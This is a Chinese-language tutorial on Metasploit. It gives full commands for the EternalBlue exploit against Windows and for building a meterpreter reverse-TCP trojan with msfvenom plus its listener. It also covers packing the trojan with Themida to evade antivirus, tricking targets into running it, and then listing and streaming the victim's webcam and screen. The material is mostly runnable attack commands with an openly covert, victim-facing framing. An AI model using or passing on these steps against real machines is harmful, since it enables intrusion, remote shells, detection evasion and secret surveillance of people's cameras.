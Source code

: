 # Metasploit 渗透工具

https://www.metasploit.com/

kali中打开终端 & 输入 `msfconsole`

![](./images/02-Metasploit-1706774645060.png)

msf使用法则：`使用模块` -> `配置模块必选项` -> `运行模块`

### eg: metasploit 攻击 windows 操作系统

metasploit攻击永恒之蓝流程

```shell
# 使用模块
use exploit/windows/smb/ms17_010_eternalblue

# 查看必选项 （required为yes的）
show options

# 设置必选项 
# RHOSTS：攻击谁
set RHOSTS 192.168.0.100
# LPORT：在kali上开启的端口（1-65535），注意不要被占用
set LPORT 10001

# 运行模块，完成攻击
run
```

### msfvenom生成远程木马控制电脑

如果系统没有漏洞呢，可以生成木马文件，诱导对方执行

```shell
# 1、生成远控木马   msfvenom -p [payload] LHOST=[IP地址] LPORT=[端口号] -f [格式] -o [文件名]
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=172.18.48.236 LPORT=10000 -f exe -o demo.exe

# 2、开启监听
msfconsole
use exploit/multi/handler
show options
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 172.18.48.236
set LPORT 10000
run

# 3、等待对方触发上面生成的木马文件 demo.exe
```

#### 加壳免杀

msfvenom生成的远控木马会被一些安全管家软件查杀，可以通过加壳免杀 

下载`Themida` https://www.oreans.com/download.php
直接将文件拖进去即可...
![](./images/02-Metasploit-1706780924800.png)
![](./images/02-Metasploit-1706780945530.png)

然后会生成`demo_protected.exe`，这个文件便可免杀

---

运行.exe木马文件后，便可监听到上线的鱼儿
![](./images/02-Metasploit-1706781104773.png)

然后就可以进行一系列操作了... 你懂的....

```shell
# 看看能干些啥事情
help
# 看看对方有没有摄像头
webcam_list
# 如果有的话，可以打开摄像头
webcam_stream
# 共享屏幕-截屏
screenshare
```

![](./images/02-Metasploit-1706781339305.png)

